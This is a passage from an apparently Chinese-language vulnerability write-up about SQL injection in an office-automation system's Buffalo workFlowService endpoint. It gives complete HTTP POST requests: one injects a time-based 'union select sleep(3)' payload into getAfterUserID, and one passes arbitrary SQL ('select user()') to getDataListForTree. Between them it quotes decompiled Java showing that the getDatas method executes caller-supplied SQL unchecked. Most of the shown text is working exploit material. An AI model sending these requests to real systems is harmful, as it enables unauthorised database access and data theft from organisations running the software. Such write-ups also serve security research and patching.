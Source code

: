 构造数据包如下，使用延时注入进行验证  
```
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3Connection: keep-aliveCache-Control: max-age=0<buffalo-call>    <method>getAfterUserID</method>    <string>1</string>    <string>1') union select sleep(3)#</string></buffalo-call>
```  
  
延时3秒  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRMHW5Lcia7D8SyPHcEo2346IY4t6mMvDz4Je85ICzhMUVsmcRItibTbZK2kmhRx39icWJAOniaiblCp6Q/640?wx_fmt=png&from=appmsg "")  
## SQL注入（三）  
  
来到最后一个方法，名称为getDataListForTree  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRMHW5Lcia7D8SyPHcEo2346CfakibicQ2ibCBCMSzrwIb4ibxBp5BKm0usZEiaPpD4oWXlqc8MzNulzTvg/640?wx_fmt=png&from=appmsg "")  
  
此处调用GetDatas方法，代码如下  
```
publicList getDatas(String sql) throws OaException {  
 if (sql == null || "".equals(sql))  
  returnnew ArrayList();   
    Session hiSession = null;  
 try {  
      hiSession = TransactionManager.getInstance().getCurrentSession();  
      HiOaBaseSQLManager event = new HiOaBaseSQLManager(hiSession);  
  return event.executeQuerySQL(sql);  
    } catch (Exception e) {  
      e.printStackTrace();  
  thrownew OaException(e.getMessage());  
    } finally {  
  if (hiSession != null)  
        hiSession.close();   
    }   
  }

```  
  
传参sql直接执行SQL语句查询，构造的请求体如下  
```
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3Connection: keep-aliveCache-Control: max-age=0<buffalo-call> <method>getDataListForTree</method> <string>select user()</string> </buffalo-call>
```  
  